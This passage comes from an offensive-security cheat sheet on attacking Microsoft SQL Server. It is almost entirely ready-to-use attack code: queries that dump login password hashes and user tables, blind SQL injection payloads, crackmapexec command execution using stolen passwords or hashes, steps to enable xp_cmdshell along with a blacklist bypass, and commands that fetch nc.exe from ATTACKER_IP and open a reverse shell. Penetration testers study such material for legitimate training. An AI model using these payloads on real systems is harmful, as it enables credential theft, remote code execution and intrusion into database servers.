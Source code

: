 ```sql
select name,master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins;

-- get credentials from offsec database (using 'dbo' table schema) user table
select * from offsec.dbo.users;

-- error/boolean-based blind injection
' AND LEN((SELECT TOP 1 username FROM dbo.users))=5; -- #

-- time-based blind injection
' WAITFOR DELAY '0:0:3'; -- #
```

### 2.15.3 MSSQL Command Execution

Simple command execution:

```bash
# Username + Password + CMD command
crackmapexec mssql -d DOMAIN -u USERNAME -p PASSWORD -x "whoami" $VICTIM_IP
# Username + Hash + PS command
crackmapexec mssql -d DOMAIN -u USERNAME -H HASH -X '$PSVersionTable' $VICTIM_IP
```

Using interactive session:

```sql
-- Check if you have server admin rights to enable command execution:
-- Returns 1 if admin
select is_srvrolemember('sysadmin');
go

-- Check if already enabled
-- check if xp_cmdshell is enabled
select convert(int, isnull(value, value_in_use)) as cmdshell_enabled from sys.configurations where name = n'xp_cmdshell';
go

-- turn on advanced options; needed to configure xp_cmdshell
exec sp_configure 'show advanced options', 1;reconfigure;
go

-- enable xp_cmdshell
exec sp_configure 'xp_cmdshell', 1;RECONFIGURE;
go

-- Quickly check what the service account is via xp_cmdshell
EXEC xp_cmdshell 'whoami';
go
-- can be shortened to just: xp_cmdshell 'whoami.exe';
-- long form: EXEC master..xp_cmdshell 'dir *.exe'

-- Bypass blackisted "EXEC xp_cmdshell"
DECLARE @x AS VARCHAR(50)='xp_cmdshell'; EXEC @x 'whoami' —

-- Get netcat reverse shell
xp_cmdshell 'powershell iwr -uri http://ATTACKER_IP/nc.exe -out c:\users\public\nc.exe'
go
xp_cmdshell 'c:\users\public\nc.exe -e cmd ATTACKER_IP 443'
go
```
